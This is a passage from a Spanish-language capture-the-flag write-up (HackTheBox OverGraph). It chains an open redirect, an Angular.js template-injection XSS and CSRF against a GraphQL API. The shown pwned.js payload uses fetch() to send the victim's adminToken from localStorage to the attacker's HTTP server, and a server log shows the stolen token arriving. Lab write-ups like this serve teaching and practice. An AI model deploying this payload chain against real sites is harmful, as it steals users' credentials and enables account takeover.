 Pero esto no lleva a ningún lado. Vuelvo a interceptar la petición que se encarga de cambiar los datos del perfil. Se está tramitando por POST la data de los campos donde había encontrado el XSS de Angular.js

<img src="/writeups/assets/img/OverGraph-htb/30.png" alt="">

Puedo abusar del XSS que se encuentra tras el OpenRedirect para que el usuario que clicka en el enlace modifique su propio perfil, de manera que se introduzca la inyección del XSS de Angular.js para que tramite una petición por GET a un servicio HTTP de mi lado con el AdminToken

Modifico el pwned.js para poder abusar del CSRF

```null
{% raw %}
var req = new XMLHttpRequest();
req.open('POST', 'http://internal-api.graph.htb/graphql', false);
req.setRequestHeader("Content-Type","text/plain");
req.withCredentials = true;
var body = JSON.stringify({
        operationName: "update",
        variables: {
                firstname: "mark",
                lastname: "{{constructor.constructor('fetch(\"http://10.10.16.2/token?adminToken=\" + localStorage.getItem(\"adminToken\"))')()}}",
                id: "63f39901bedfc207e843a7cd",
                newusername: "mark"
        },
        query: "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}"
});
req.send(body);
{% endraw %}
```

Al enviar el enlace recibo el AdminToken

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.157 - - [20/Feb/2023 16:28:33] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.157 - - [20/Feb/2023 16:28:39] code 404, message File not found
10.10.11.157 - - [20/Feb/2023 16:28:39] "GET /token?adminToken=c0b9db4c8e4bbb24d59a3aaffa8c8b83 HTTP/1.1" 404 -
10.10.11.157 - - [20/Feb/2023 16:28:39] code 404, message File not found
10.10.11.157 - - [20/Feb/2023 16:28:39] "GET /token?adminToken=c0b9db4c8e4bbb24d59a3aaffa8c8b83 HTTP/1.1" 404 -
```
